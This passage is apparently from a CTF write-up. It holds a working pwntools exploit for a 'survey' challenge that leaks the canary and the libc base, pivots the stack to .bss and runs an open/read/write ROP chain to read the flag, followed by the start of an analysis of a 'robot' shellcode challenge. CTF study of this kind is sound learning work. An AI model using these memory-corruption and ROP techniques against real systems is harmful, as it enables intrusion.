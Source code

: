 ```python=
base = u64(p.recvline().strip().ljust(8, b'\x00')) - 0x12f0
success('canary = 0x%x', canary)
success('base address = 0x%x', base)

# overwrite return address to main
main = base + 0x1235
bss = base + 0x4d00
payload = b'a'*24 + p64(canary) + p64(bss) + p64(main)
p.sendafter('here : ', payload)

# run once to make rsp on bss
p.sendafter('name : ', 'a')
payload = b'a'*24 + p64(canary) + p64(bss) + p64(main)
p.sendafter('here : ', payload)

# leak libc
p.sendafter('name : ', 'a'*8)
p.recvuntil('a'*8)
fflush = u64(p.recvline().strip().ljust(8, b'\x00')) - 157
libc_base = fflush - libc.sym['fflush']
success('libc base = 0x%x', libc_base)
payload = b'a'*24 + p64(canary) + p64(bss) + p64(main)
p.sendafter('here : ', payload)

# overwrite return address to gets
pop_rdi = 0x1353 + base
leave_ret = 0x12e1 + base
gets = libc_base + libc.sym['gets']
p.sendafter('name : ', 'a')
payload = p64(pop_rdi) + p64(bss-0x8) + p64(gets) + p64(canary) + p64(bss-0x28) + p64(leave_ret)
p.sendafter('here : ', payload)

# rop chain
pop_rsi = 0x26f9e + libc_base
pop_rdx = 0x12bda6 + libc_base
pop_rax = 0x47cf8 + libc_base
syscall_ret = 0xcf6c5 + libc_base   # ROPgaget with parameter --multibr
payload = p64(pop_rdi) + p64(bss+0x8*26) + p64(pop_rsi) + p64(0) + p64(pop_rdx) + p64(0) + p64(pop_rax) + p64(2) + p64(syscall_ret) # open
payload += p64(pop_rdi) + p64(3) + p64(pop_rsi) + p64(bss+0x100) + p64(pop_rdx) + p64(0x100) + p64(pop_rax) + p64(0) + p64(syscall_ret) # read
payload += p64(pop_rdi) + p64(1) + p64(pop_rsi) + p64(bss+0x100) + p64(pop_rdx) + p64(0x100) + p64(pop_rax) + p64(1) + p64(syscall_ret) # write
payload += b'/home/survey/flag'
p.sendline(payload)

p.interactive()
```
>FLAG{7h4nks_f0r_y0ur_f33dback}
## robot
### 題目分析
* 一樣直接拉進ida裡面decompile一開始先進行一些初始化和設定pipe然後就執行fork來生成一個child process  
![](https://i.imgur.com/LDUa1g5.png)
* 先來看child process在做些甚麼
* 這邊可以看到child用mmap開一塊可讀可寫可執行的memory然後讀取shellcode之後把stdin stdout stderr關掉再設置seccomp就跳進shellcode裡執行
![](https://i.imgur.com/5peOr9V.png)
* 再來看parent做了些甚麼
* 這邊可以看到parent開了一塊可讀可寫的記憶體然後做了一些隨機數的初始化之後就從pipe讀取child process的輸出總共1000次
![](https://i.imgur.com/PoyQO6h.png)